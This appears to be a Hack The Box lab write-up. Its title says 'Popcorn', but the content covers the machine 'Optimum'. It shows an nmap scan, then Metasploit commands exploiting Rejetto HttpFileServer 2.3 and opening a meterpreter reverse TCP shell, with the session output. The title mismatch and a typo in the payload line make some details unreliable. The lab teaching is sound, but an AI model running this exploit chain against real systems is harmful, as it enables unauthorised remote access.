 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.8
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.8

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 15:14 EST
<br>Nmap scan report for 10.10.10.8
<br>Host is up (0.15s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">HttpFileServer httpd 2.3</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone
<br>Running (JUST GUESSING): Microsoft Windows 2012|7|Phone|2008|8.1|Vista (91%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
<br>Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>**Web**:-
![web](https://teckk2.github.io/assets/images/Optimum/1-Optimum.png)
<br>The target machine is running HttpFileserver 2.3 for which there is a public exploit available
<br>**Exploit**:- [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)
<br>**Vulnerabilty Description:-**:- Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
</p>msf > use exploit/windows/http/rejetto_hfs_exec
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set RHOST 10.10.10.8
<br>RHOST => 10.10.10.8
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set payload windows/x64\reterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Using URL: http://0.0.0.0:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Local IP: http://192.168.140.136:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Server started.
<br><font color="RoyalBlue">[*]</font> Sending a malicious request to /
<br><font color="RoyalBlue">[*]</font> Payload request received: /aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.8
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.8:49162) at 2017-12-19 16:18:59 -0500
<br><font color="RoyalBlue">[!]</font> Tried to delete %TEMP%\mbSzL.vbs, unknown result
<br><font color="ffff80">[*]</font> Server stopped.</p>

<p>meterpreter > getuid
<br>Server username: <font color="53E100">OPTIMUM\kostas</font>
<br>meterpreter ></p>
</div>
</font>
</br>Now we have the user _Kostas_ access, for privilege escalation we can run post exploit suggester in **MSF**.
